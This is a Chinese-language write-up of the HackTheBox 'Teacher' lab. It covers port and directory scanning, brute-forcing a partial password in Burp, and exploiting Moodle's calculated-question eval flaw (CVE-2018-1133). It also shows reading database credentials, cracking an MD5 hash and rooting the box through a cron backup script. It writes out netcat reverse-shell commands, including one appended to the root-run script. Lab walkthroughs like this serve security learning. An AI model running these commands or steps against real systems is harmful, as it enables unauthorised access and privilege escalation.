


Teacher
首先需要找到一组密码，是正确密码的一部分，最后一位不能确定，然后针对用户名和拼接的密码进行暴力破解，进入moodle中，利用该版本程序的漏洞获得shell，在收集信息时获取数据库登录信息，进入数据库后会得到md5密码，使用该密码可以得到用户的权限，利用cron工作来获取root权限
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
◇ nmap
◇ TCP/80
▪ 暴力破解
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
nmap -sV -sC -p- -T4 -oA nmap 10.10.10.153
nmap只发现了对外开放了80端口，从http-title看出可能是某个中学的官网
TCP/80
打开网站确实是一个官网，查看每个接口看看有没有可以利用的地方

发现了一个接口，/images/5.png，但是响应包中却是一段文字
这个Giovanni写忘记了密码的最后一个字符，很有可能是想要我们去暴力破解，Th4C00lTheacha，再添加最后一个字符，从a-z，A-Z，0-9，在加上常用标点符号，生成一组密码，找到登录口后暴力破解进入后台，尝试admin/administrator等常见后台登录接口也没反应，直接扫描网站目录吧
暴力破解
gobuster dir -u http://10.10.10.153/ -w /usr/share/wordlists/dirb/big.txt -o gobuster
最终发现了这些接口
其中尝试访问/moodle接口时，跳转到teacher.htb，尝试将该域名添加至/etc/hosts

再次访问该页面，得到如下结果，看起来像是老师用的界面，wappalyzer显示这个moodle是一个LMS，可以尝试获取版本信息后查阅相关漏洞。之前的用户Giovanni可能是一个老师，右上角有一个登录按钮，尝试使用刚才得到的用户名和残缺的密码暴力破解登录系统
首先将登录时的数据包发送至burpsuite的intruder，在密码的最后一位添加替换位$password$，之后burpsuite便会自动替换这一位的字符
设置payloads为a-z，A-Z，0-9，常见字符，先试一下，可以看到#相应长度不同于其他
尝试使用Giovanni/Th4C00lTheacha#登录系统，成功登陆
使用moodlescan扫描一下目标网站，看看能不能发现一些东西
python3 moodlescan.py -k-u http://moodle.example.com/<moodle_path>/
扫描结果如下，发现系统使用的moodle版本为3.4.1
CVE-2018-1133
Moodle 允许教师设置包含多种问题的测验。其中包括计算问题，它允许教师输入一个数学公式，该公式将由 Moodle 对随机输入变量进行动态评估。这可以防止学生作弊并简单地分享他们的结果。例如，教师可以键入 什么是 {x} 添加到 {y}？答案公式为 {x}+{y}。 Moodle 然后会生成两个随机数，并将它们插入问答文本中的 占位符 {x} 和 {y} （例如3.9+2.1）。 最后，它将通过调用安全敏感的 PHP 函数来 评估答案 6.0eval() 以其恶意潜力而闻名的公式输入，因为它允许执行任意 PHP 代码。
查看https://www.sonarsource.com/blog/moodle-remote-code-execution/文章获取更多信息
开始复现该漏洞，首先肯定是要登录系统
1. 前往Site home–> 点击Algebra–> 点击Turn editing on
2. 点击Add an activity or resource->点击Quiz->Add

3. 随便写点东西然后点击保存，save and return to course，比如我创建了一个名为test的quiz
4. 点击test进入，然后选择编辑edit quiz
5. 进入编辑后，选择add，在选择a new question，类型选择calculated，点击add添加
6. 然后将上文链接文章中的代码写入answers中，还要选择100%，负责会报错
7. 然后点击save changes保存配置，下一个页面无需修改内容直接点击next page即可，在跳转至下一个页面即可使用“0=”来执行远程代码，使用nc -e /bin/bash 10.10.*.* 4444将shell传递给kali（kali提前监听端口）
Shell as giovanni
拿到一个www-data权限的shell，用python获取一个交互式shell
python3 -c 'import pty; pty.spawn("/bin/bash")'在网站根目录中发现了很多config文件，打开看看
在config.php中可以看到数据库相关信息
使用查到的数据库信息登录mysql

use moodle;使用moodle数据库，里面有一张叫mdl_user的表，其中存储着用户信息，查看表，发现列名username和password

查看username和password内容
其中最后一行Giovannibak的密码像是使用了md5加密，解密得到密码为expelled
查看/etc/passwd发现并没有用户叫Giovannibak，再加上bak很可能意味着这个密码是giovanni用户的备用密码，尝试使用改密码切换至giovanni用户，成功
链接到用户后，我们可以找到user.txt并查看
Shell as root
在giovanni目录下，进入tmp目录，发现backup_courses.tar.gz每分钟都在运行，似乎是参与了一个cron job，且该文件属于root用户
向靶机上传pspy工具，检索所有的cron job
查看backup.sh的内容。进入work目录，将课程目录添加到tmp/backup_courses.tar.gz中，然后进入tmp目录，解压文件，并将tmp中所有文件权限设置为777
脚本由root用户创建，不能修改
chmod 从不更改符号链接的权限；chmod 系统调用无法更改其权限。这不是问题，因为从不使用符号链接的权限。但是，对于命令行中列出的每个符号链接，chmod 都会更改指向文件的权限。相反，chmod 忽略递归目录遍历期间遇到的符号链接
在~/work/tmp中创建链接：
尝试在脚本中追加"nc -e /bin/bash 10.10.14.14 1111" >> /usr/bin/backup.sh
开启监听，等待任务执行后，就能收到一个shell，然后就可以查看flag了